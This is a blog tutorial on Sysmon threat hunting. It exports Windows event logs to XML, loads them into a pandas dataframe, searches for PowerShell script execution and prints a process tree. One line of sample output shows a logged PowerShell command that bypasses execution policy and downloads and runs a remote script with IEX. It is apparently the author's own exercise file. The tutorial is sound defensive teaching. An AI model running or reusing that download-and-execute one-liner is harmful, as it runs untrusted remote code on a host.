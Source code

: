 ```yaml
---
title: "Threat Hunting with sysmon 101 part 4: Loading events in pandas dataframe"
date: 2024-03-25 22:40:00 +0200
categories: Threat_hunting
description: Threat hunting with sysmon 
tags: Threat hunting sysmon Threat-hunting windows logs ELK
published: true
---
```


In the past article, we used powershell scripting to filter the events and perform basic querying, in this article we will load sysmon logs into python, and explore some powerful queries that we can apply to our data to gain better understanding of it.

# Exporting events to xml
The first step is to export sysmon events from the event log in xml format. This can be done either using get-winevent, or wevtutil. But, it seems that wevtutil is much faster .

This command uses **wevtutil.exe** to dump the logs to **exported-eventlog.xml** file on the desktop in XML format.
```
WEVTUtil query-events "Microsoft-Windows-Sysmon/Operational" /format:xml /e:events > ~/Desktop/exported-eventlog.xml
```
Or, this slower version that uses **Get-WinEvent** powershell command
```
 Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational'} |Export-Clixml -Path ~/Desktop/exported-eventlog.xml
```

Make sure to run these commands as admin in order to export the logs properly.

# Loading Events in python
Parsing XML files in python is easy, we just need to know which nodes/attributes are useful for us, this code snipper will load the xml file, iterate over each event, extract some data from each event, and then store load every thing in pandas dataframe.

```
import tabulate
from bs4 import BeautifulSoup
import pandas as pd

with open(r'exported-eventlog.xml', 'r' , encoding='utf16') as f:
    data = f.read()

parsed = BeautifulSoup(data, "xml")

events_list  = []
for event in parsed.find_all('Event'):
    evt_dict ={}
    evt_dict['EventID'] = event.find('EventID').text
    evt_dict['Computer'] = event.find('Computer').text
    evt_dict['EventRecordID'] = event.find('EventRecordID').text
    for j in event.find_all("Data"):
        evt_dict[j['Name']] = j.text
    events_list.append(evt_dict)

df = pd.DataFrame(events_list)
print('Loaded %d events' % len(df))
```

# Usecase: Search for execution of .ps1 files
We can use python to do case insensitive searches in the data, in this example, we are using regex to search the "CommandLine" field for powershell executing ps1 script files.
```
filtered_df = df[(df['CommandLine'].notna()) & (df['CommandLine'].str.match('.*PoWeRSHeLl.*pS1.*',case=0))][['EventID','ProcessId','Image','CommandLine']]
print(tabulate.tabulate(filtered_df ,headers= filtered_df.columns))
```
And the result shows the execution of the exercise file we used in the last post.
```
        EventID    ProcessId  CommandLine
----  ---------  -----------  ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
 115          1         3900  powershell.exe  -noexit -ep bypass -command IEX((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/11x256/11x256.github.io/test/assets/exercise/th3/1.ps1'))

9082          1         7464  C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -noexit -command "try { . \"c:\Users\abdo-pc\AppData\Local\Programs\Microsoft VS Code\resources\app\out\vs\workbench\contrib\terminal\browser\media\shellIntegration.ps1\" } catch {}"

```


# Usecase: Create Process Tree
Another thing we can try now is to create a process tree to show the relationships between the processes.
In order to create a process tree, we will need 2 things:
- identify root nodes, these nodes (processes) don't have a parent, this can be either due to missing data, or because thats the first process created by the OS.
- Create list of children of each node: this will allow us to create the parent-child relationship


## The firs step: Prepare the data
In this step will check what nodes are missing from our data ,and we will select a subset of filed to use in the process tree
```
# List to store all the nodes
nodes = []
# Dictionary to identify missing nodes
nodes_guids = {}
for i in df[df['EventID'] == "1" ].itertuples():
    node = {}
    node['Name'] = i.Image.split('\\')[-1]
    node['Cmd'] = i.CommandLine
    node['ProcessGuid'] = i.ProcessGuid
    node['ParentProcessGuid'] = i.ParentProcessGuid
    node['ProcessId'] = i.ProcessId

    nodes.append(node)
    nodes_guids[i.ProcessGuid] = 1 # set the node in the dict as available
```



## The second step: Create the parent-child relationship

```
roots = []
childs = {}

for i in nodes:
    if nodes_guids.get(i['ParentProcessGuid'] , 0 ) == 0:
        roots.append(i)
    else:
        if i['ParentProcessGuid']  not in childs:
            childs[i['ParentProcessGuid'] ] = []
        childs[i['ParentProcessGuid'] ].append(i)


```

This code will create a list of roots, nodes without a parent in our set of data. And it will create a list of childs for each parent

## The third step: Print the tree
Now, we have every thing ready, we just need to print the data using recursion. Recursion is used in order to print the data in the required order, we need to print the root, then the first child, then the first child of the first child, and so on...
```
root
    child 1
        child 1 1
            child 1 1 1
        child 1 2
        child 1 3
            child 1 3 1
            child 1 3 2
    child 2
    child 3 
    ... 
```
Using a for loop to print the data , we will get in weird order for a process tree, which will look like this:
```
root
    child 1
    child 2
    child 3
    child 4
    child 1 1
    child 1 2
    child 3 1
    .... and so on
```

```
def print_node(node, indent =0):
    print(' '*indent , node['Name'] , node['ProcessId'])
    for j in childs.get(node['ProcessGuid'] , []):
        print_node(j, indent=indent+4)
for i in roots:
    print_node(i)

```

Which would print something like this, based on what you choose to print 

```
 mscorsvw.exe 1532
 mscorsvw.exe 5964
 chrome.exe 9320
     chrome.exe 6456
     chrome.exe 7568
     chrome.exe 940
     chrome.exe 10788
     chrome.exe 7448
     chrome.exe 3400
     chrome.exe 7060
     chrome.exe 5292
     chrome.exe 11128
     chrome.exe 4340
     chrome.exe 8556
     chrome.exe 8816
     chrome.exe 2052
     chrome.exe 5896
     chrome.exe 7016
     cmd.exe 5292
         conhost.exe 8224
     chrome.exe 768
     chrome.exe 9288
     chrome.exe 9716
     cmd.exe 4264
         conhost.exe 6736
    ....
```


